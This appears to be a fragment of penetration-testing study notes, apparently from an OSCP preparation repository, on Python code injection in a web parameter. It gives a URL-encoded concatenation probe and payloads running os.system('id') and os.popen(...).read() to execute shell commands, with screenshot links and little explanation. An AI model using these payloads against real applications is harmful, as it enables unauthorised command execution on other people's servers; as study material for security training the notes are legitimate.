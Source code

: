```
`"%2bstr(True)%2b"test`
```

[Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/8db48e07-c8f3-46ef-8c76-00047fcb8400)

```
os.popen('[CMD]').read()
```

```
os.popen('id').read()
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/a77000f5-0460-4a9e-b3bc-0cd5f988fc17)
